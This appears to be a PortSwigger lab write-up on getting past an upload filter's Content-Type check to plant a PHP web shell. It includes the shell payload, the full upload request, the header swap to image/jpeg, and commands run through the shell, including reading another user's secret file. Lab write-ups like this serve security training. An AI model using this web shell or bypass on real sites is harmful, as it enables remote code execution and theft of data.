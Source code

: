 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0c98703e-48d9-42ad-af35-eb6b74343216)

## Overview :

- One way that websites may attempt to validate file uploads is to check that this input-specific **Content-Type header matches an expected MIME type**. If the server is only expecting image files, for example, it may only allow types like `image/jpeg` and `image/png`.
- Problems can arise when the value of this header is implicitly trusted by the server.,if no further validation is performed to check whether the contents of the file actually match the supposed MIME type.

## Solution :

Log in as wiener & we will be presented with a page to update email and also to upload an avatar.

When we upload a `.php` file with the payload **<?php echo system($_GET['command']); ?>**, we get this response stating that the application accepts only **.jpeg** files.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/36933904-e068-47bb-8d82-6ffbce9a322b)

Let's take a look at the request sent when uploading the file.

```
POST /my-account/avatar HTTP/1.1
Host: 0a1000bb04122918814bd9d000d400c5.web-security-academy.net
Cookie: session=pFjBEs7PaXo8VlIvWFeyV3Q6z05fpBD4
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------11469386721501997801471814291
Content-Length: 523
Origin: https://0a1000bb04122918814bd9d000d400c5.web-security-academy.net
Referer: https://0a1000bb04122918814bd9d000d400c5.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------11469386721501997801471814291
Content-Disposition: form-data; name="avatar"; filename="file.php"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

-----------------------------11469386721501997801471814291
Content-Disposition: form-data; name="user"

wiener
-----------------------------11469386721501997801471814291
Content-Disposition: form-data; name="csrf"

w96zwxkBLbFkh0aszhexGP4ehAhVB7MN
-----------------------------11469386721501997801471814291--
```

Note that there is a header - `Content-Type: application/x-php` **in the message body & not the one in the header**.. Means it tells the server that it is an **.php** file that is being uploaded.

So let's change the `Content-Type: application/x-php` to `Content-Type: image/jpeg` & see what happens.


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6b8253d8-7d5d-4c50-87db-d180d991d290)

Now the file is successfully uploaded.

Now we can run comands on the server by using the `?command=` parameter. ie - `/files/avatars/file.php?command=id`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b24ef633-c731-439d-964f-e289b26c743f)

#### Retreiving the Secret -

To retreive the secret from carlos's home directory , make a GET request to `files/avatars/file.php?command=cat /home/carlos/secret`

SECRET - `5RIyXZiyzXF7Q14vLoRKxHWRE5qBWQqg5RIyXZiyzXF7Q14vLoRKxHWRE5qBWQqg`

Submit the key to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4a951754-b281-48c1-a642-625cec251e93)



